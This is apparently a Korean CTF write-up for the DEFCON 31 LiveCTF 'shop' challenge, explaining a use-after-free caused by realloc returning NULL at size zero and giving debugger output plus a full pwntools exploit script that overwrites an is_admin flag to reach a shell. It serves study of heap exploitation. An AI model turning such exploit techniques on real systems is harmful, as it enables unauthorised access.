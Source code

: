 ```yaml
---
title: DEFCON 31 LiveCTF - shop
date: 2024-07-16 00:00:00 +0900
categories: [Pwnable, CTF]
tags: [pwnable, ctf, uaf]
---
```

## 0x00. Introduction

``` bash
[*] '/home/user/uaf'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### Structures

``` c
struct credential {
    char is_admin;      // alignment 때문에 어차피 8바이트를 차지
    struct shelf *shelf_ptr;
    char *username;
    char *password;
    struct credential *next_cred;
}

struct shelf {
    long count;
    struct item *item_ptr;
}

struct item {
    long number;
    long price;
    char *name;
    char *description;
}
```

### Goal

``` c
unsigned __int64 hidden_1C83()
{
  unsigned __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  if ( LOBYTE(login_info_4108->is_admin) )
    system("/bin/sh");
  else
    puts("Not an admin");
  return v1 - __readfsqword(0x28u);
}
```

로그인 이후의 메뉴에서 7번을 선택하면 호출되는 숨겨진 `hidden_1C83()`이 존재한다.

여기에서 `login_info`의 첫 바이트, 즉 `is_admin`의 값이 0이 아니면 쉘을 띄워준다.

## 0x01. Vulnerability

``` c
unsigned __int64 add_item_1357()
{
  ...
      tmp = realloc(shelf_ptr->item_ptr, 0x20 * (shelf_ptr->count + 1));
      if ( tmp )
      {
        ++shelf_ptr->count;
        shelf_ptr->item_ptr = tmp;
        memcpy(&shelf_ptr->item_ptr[shelf_ptr->count - 1], &selected, sizeof(shelf_ptr->item_ptr[shelf_ptr->count - 1]));
      }
  ...
}

unsigned __int64 remove_item_14B6()
{
  ...
      tmp = realloc(shelf_ptr->item_ptr, 0x20 * (shelf_ptr->count - 1));
      if ( tmp )
      {
        --shelf_ptr->count;
        shelf_ptr->item_ptr = tmp;
      }
      else
      {
        puts("Error removing item");
      }
  ...
}
```

`add_item_1357()`에서 item을 추가하면 `item_ptr`에 힙 영역이 할당된다.

이것을 `remove_item_14B6()`에서 item을 삭제할 때 청크 사이즈만 줄여서 재할당하는데 사이즈가 0이 됐을 때 `realloc()`에서 `NULL`이 리턴된다.

그런데 `item_ptr`의 값이 초기화되지 않고 그대로 남아있고, 삭제 이후 다시 `add_item_1357()`을 호출할 때 해제된 영역에 접근이 가능하기 때문에 UAF 취약점이 존재한다.

## 0x02. Exploit

``` c
unsigned __int64 open_account_1932()
{
  ...
      tmp = malloc(0x28uLL);
      LOBYTE(tmp->is_admin) = 0;
  ...
}
```

`open_account_1932()`를 보면 계정을 생성하고 바로 `is_admin`을 0으로 만든다.

따라서 A 계정을 만들고 item을 추가 후 삭제하여 해제된 영역을 B 계정의 `credential` 구조체가 가리키도록 exploit을 구성했다.

-   open_account A
-   add_item 1
-   remove_item 0
-   logout
-   open_account B

이러한 순서로 페이로드를 작성해서, A의 `item_ptr`과 B의 `credential`이 같은 영역에 위치하게 만들 수 있고,

-   login as A
-   add_item 2

다시 A로 로그인한 후에 item을 추가해서 `item.number`를 복사하는 과정에서 `is_admin`이 덮이는 시나리오를 생각했으나...

``` bash
# Credential of B - BEFORE
gef➤  x/5gx 0x0000555555559330
0x555555559330: 0x0000000555555500      0x00005555555593a0
0x555555559340: 0x0000555555559360      0x0000555555559380
0x555555559350: 0x0000000000000000

# Credential of B - AFTER
gef➤  x/5gx 0x0000555555559330
0x555555559330: 0x0000000555555559      0x4ec540a62b019163
0x555555559340: 0x0000555555559360      0x0000555555559380
0x555555559350: 0x0000000000000000
```

쉘이 떨어져서 실제 값이 잘 덮였는지 확인해보니 `item.number`가 아닌 엉뚱한 값으로 덮여있었다.

그래서 다시 면밀하게 디버깅을 해본 결과 `memcpy` 부분이 아니라 `realloc` 부분에서 값이 변경되는 것을 확인했다.

곰곰이 생각해보니 다음과 같은 문제가 있었다.

1.  `remove_item_14B6()`에서 `realloc()`이 `NULL`을 리턴해서 `item_ptr` 초기화는 물론 `count` 값도 작아지지 않음
2.  다시 `add_item_1357()`를 하는 과정에서 `count` 값이 아직 1이므로 0x40만큼 `realloc()`을 요청함
3.  사이즈도 맞지 않거니와 B의 `credential`이 있는 영역은 다시 `free`된 적도 없기 때문에 아예 다른 영역이 할당됨

결과적으로는 `realloc` 과정에서 뭔가 dummy 데이터가 쓰여지면서 `is_admin`이 덮이게 되어 다행히 exploit이 성공한다.

솔직히 이게 intended solution인지 잘 모르겠다... ㅋㅋㅋㅋ

## 0x03. Payload

``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
import sys

BINARY = "uaf"
LIBRARY = "libc.so.6"

code_base = 0x0000555555554000
bp = {
    'main' : code_base + 0x1DC7,
    'open_account' : code_base + 0x1932,
    'hidden' : code_base + 0x1C83,
}

gs = f'''
b *{bp['open_account']}
b *{bp['hidden']}
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def menu(s, inputs: list) :
    for i in range(len(inputs)):
        r = s.recvuntil(b': ').decode()
        if i == 0:
            print(r.split('\n')[int(inputs[i]) - 1])
        s.sendline(inputs[i].encode())
    return

def main():
    if(len(sys.argv) > 1):
        s = remote("0.0.0.0", int(sys.argv[1]))
    else:
        s = process(BINARY, env={"LD_PRELOAD" : LIBRARY})
        gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)

    menu(s, ['2', 'aaaa', '1111'])  # open_account of A
    menu(s, ['2', '1'])             # add_item 1
    menu(s, ['3', '0'])             # remove_item 0
    menu(s, ['5'])                  # logout
    menu(s, ['2', 'bbbb', '2222'])  # open_account of B
    menu(s, ['5'])                  # logout
    menu(s, ['3', 'aaaa', '1111'])  # login as A
    menu(s, ['2', '2'])             # add_item 2
    menu(s, ['5'])                  # logout
    menu(s, ['3', 'bbbb', '2222'])  # login as B
    menu(s, ['7'])                  # hidden
    s.interactive()

if __name__=='__main__':
    main()
```